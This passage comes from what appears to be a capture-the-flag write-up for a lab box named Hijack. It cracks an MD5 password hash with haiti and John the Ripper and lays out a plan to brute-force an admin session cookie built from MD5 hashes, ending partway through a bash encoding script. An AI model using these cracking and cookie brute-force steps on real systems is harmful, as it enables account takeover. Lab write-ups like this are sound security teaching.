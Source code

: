 `test` is our username and `16d7a4fca7442dda3ad93c9a726597e4` must be a hashed version of our password.

We can identify the hash by using a tool like [Haiti](https://noraj.github.io/haiti/#/):

```sh
haiti 16d7a4fca7442dda3ad93c9a726597e4
```

![d5ad2864c20a6c29587606121cf5eb3c.png](/resources/a02fd8c7066e4063be2a62d686bead62.png)

Next we can use [John the Ripper](https://www.openwall.com/john/) to crack the password and confirm our findings. First we will `echo` the hash to a file and then run `john` to crack it. I used [this wordlist](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Leaked-Databases/rockyou-75.txt) and the `--format=raw-md5` flag to force MD5 cracking mode:

```sh
echo 16d7a4fca7442dda3ad93c9a726597e4 > test.hash
john --wordlist=/usr/share/wordlists/SecLists/Passwords/Leaked-Databases/rockyou-75.txt test.hash --format=raw-md5
```

![3a72197c97c26d3e79a7b9f707c233d8.png](/resources/b247251df06f48c7a752677f42a9720e.png)

# Initial Foothold

### \[-] www-data\@Hijack

Let's recap what we have found so far:

- User is assigned a session cookie after logging into the website
- Session cookie contains credentials using insecure hashing algorithm (MD5)
- User name `admin`
- Password list `.passwords_list.txt` containing possible password for `admin`

What we can do now is hash all the passwords in `.passwords_list.txt` to MD5, use a proxy tool like ZAP or Burp Suite to capture the request with the session cookie, modify the session cookie to `admin:<FUZZ>`, then use the Fuzzing tool and the new MD5 hashed password list to brute force a valid session as `admin`. Since only the wrong password attemps are rate-limited, we should have no problem brute forcing the session cookie.

Here is a bash script that I generated with ChatGPT:

```bash
#!/bin/bash

# Input file containing the list of words
input_file="password_list.txt"

# Output file for URL encoded values
output_file="base64_admin.txt"

# Check if input file exists
if [ ! -f "$input_file" ]; then
    echo "Input file '$input_file' not found."
    exit 1
fi

# Function to URL encode symbols and special characters
url_encode_special() {
    local string="$1"
    local encoded_string=""
    for ((i = 0; i < ${#string}; i++)); do
        char="${string:i:1}"
        if [[ "$char" =~ [^a-zA-Z0-9_.~!*\'\(\)-] ]]; then
            encoded_string+=$(printf "%%%02X" "'$char")
        else
```